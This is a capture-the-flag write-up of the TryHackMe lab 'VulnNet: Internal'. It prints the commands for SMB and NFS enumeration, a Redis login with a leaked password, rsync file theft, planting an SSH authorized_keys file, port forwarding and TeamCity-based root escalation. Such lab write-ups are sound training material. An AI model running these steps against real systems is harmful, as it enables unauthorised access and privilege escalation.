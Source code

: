 # VulnNet: Internal

This is a write-up for the machine VulnNet: Internal located at: [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)

I ran an nmap scan

```c
nmap -T4 -A 10.10.98.192 -oN nmap_output.txt
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 17:37 EDT
Nmap scan report for 10.10.98.192
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34713/tcp   mountd
|   100005  1,2,3      45887/tcp6  mountd
|   100005  1,2,3      46635/udp6  mountd
|   100005  1,2,3      55619/udp   mountd
|   100021  1,3,4      43989/tcp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      55225/udp   nlockmgr
|   100021  1,3,4      55609/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-09-23T23:38:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-23T21:38:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds
```

I then ran **smbmap -H &lt;IP&gt;**, and got the following output:

```c
[+] Guest session       IP: 10.10.98.192:445    Name: 10.10.98.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

I then ran **smbclient \\\\10.10.98.192\\shares**, and got the following output:

```c
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278156 blocks available
```

In the **temp** folder, there was the following file:

```c
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
```

In the **data** folder, there was the following file:

```c
smb: \data\> ls
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021
```

Looking through the files, I found the flag for the services.txt:

![](../../.gitbook/assets/image%20%28207%29.png)

I then ran a **metasploit** module **auxiliary/scanner/rsync/modules\_list**. This is what I got from the result from it:

![](../../.gitbook/assets/image%20%28215%29.png)

I then read [this write-up](https://cyberrat.medium.com/vulnnet-internal-tryhackeme-cad6ccb9ad54) and realized that I did not use the **showmount** command. I then followed the write-up to run  **showmeant -e &lt;IP&gt;**. I then got the following:

![](../../.gitbook/assets/image%20%28211%29.png)

I then mounted the system to my machine:

![](../../.gitbook/assets/image%20%28214%29.png)

Viewing through the files I came across some sort of password in the redis.conf file:

![](../../.gitbook/assets/image%20%28206%29.png)

I then followed the same write-up to understand my next step. This was to use **redis-cli** in order to connect to the database and see what is there using the pasword we found earlier. I ran **redis-cli -h 10.10.98.192 -a &lt;requirepass\_from\_earlier&gt;** in order to login to the database. I then was able to find the flag for internal:

![](../../.gitbook/assets/image%20%28205%29.png)

When I ran **LRANGE authlist 1 20**, I got the following:

![](../../.gitbook/assets/image%20%28199%29.png)

The three values were the exact same, and seemed to be base64 encoded. I decoded it online and got the following:

![](../../.gitbook/assets/image%20%28212%29.png)

So now we have to connect to rsync with this password:

![](../../.gitbook/assets/image%20%28202%29.png)

There is a sys-internal directory that I ave to find a way to get access into. I followed the aforementioned write-up and ran the following commands \(tweaked to work for me\):

```c
mkdir local_storage
rsync -av rsync://rsync-connect@10.10.98.192/files local_storage
```

This allowed me to download the folder to my local drive. In that directory, I found the user.txt file:

![](../../.gitbook/assets/image%20%28201%29.png)

I got stuck here, so I had to view the write-up again. I was meant to create an SSH keypair and upload it using rsync. So I ran the following commands:

```c
ssh-keygen -t rsa 
cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
rsync -av authorized_keys rsync://rsync-connect@10.10.98.192/files/sys-internal/.ssh  
```

For the previous step, I ended up getting stuck, and found [this write-up](https://muzec0318.github.io/posts/vulnet.html) that actually clarified the situation for me. This same write-up led me to run **ss** **-tulpn** to find out what ports were open. I used the same write-up to figure out we have to do port forwarding. In order to do this, I ran the following command:

```c
ssh -i internals -L 8111:localhost:8111 sys-internal@10.10.98.192 
```

Visiting `localhost:8111` led me to the following page:

![](../../.gitbook/assets/image%20%28204%29.png)

I then searched for the word **token** in the whole filesystem to find a token for the following webpage:

![](../../.gitbook/assets/image%20%28210%29.png)

The second to last authentication token worked for me! I then created a new project:

![](../../.gitbook/assets/image%20%28213%29.png)

I then created a build config:

![](../../.gitbook/assets/image%20%28200%29.png)

I then went to Build Steps and followed a bit of [this write-up](https://infosecwriteups.com/tryhackme-writeup-vulnet-internal-9abe74955f32) for this part. I following the following image: 

![](../../.gitbook/assets/image%20%28203%29.png)

I then ran the script from the choice on top, and when I went back to my previous shell, I ran **/bin/bash -p**, and I was able to get root:

![](../../.gitbook/assets/image%20%28209%29.png)

I wan then able to get the root flag:

![](../../.gitbook/assets/image%20%28208%29.png)

